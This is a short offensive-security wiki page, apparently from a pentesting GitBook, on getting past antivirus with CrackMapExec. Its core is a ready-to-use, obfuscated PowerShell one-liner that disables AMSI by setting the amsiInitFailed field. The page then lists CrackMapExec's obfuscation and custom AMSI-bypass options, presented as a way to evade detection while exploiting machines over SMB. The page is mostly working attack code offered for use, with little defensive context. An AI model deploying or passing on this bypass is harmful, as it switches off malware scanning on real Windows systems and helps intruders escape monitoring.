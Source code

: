 ```yaml
---
description: How to bypass AMSI using CrackMapExec...
cover: ../.gitbook/assets/GitBook Covers (1).png
coverY: 0
---
```


# 🔥 Anti Virus Bypass with CrackMapExec

Create a file called AV\_Bypass.txt and add the content:

{% code overflow="wrap" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}

### Powershell Obfuscation

The CrackMapExec tool includes an option for obfuscating PowerShell commands used during SMB exploitation.&#x20;

This option can be useful for avoiding detection by security tools that may be monitoring for suspicious PowerShell activity.

```
Options for PowerShell script obfuscation

  --obfs                Obfuscate PowerShell scripts
  --amsi-bypass FILE    File with a custom AMSI bypass
  --clear-obfscripts    Clear all cached obfuscated PowerShell scripts
```

```
// Some code
```
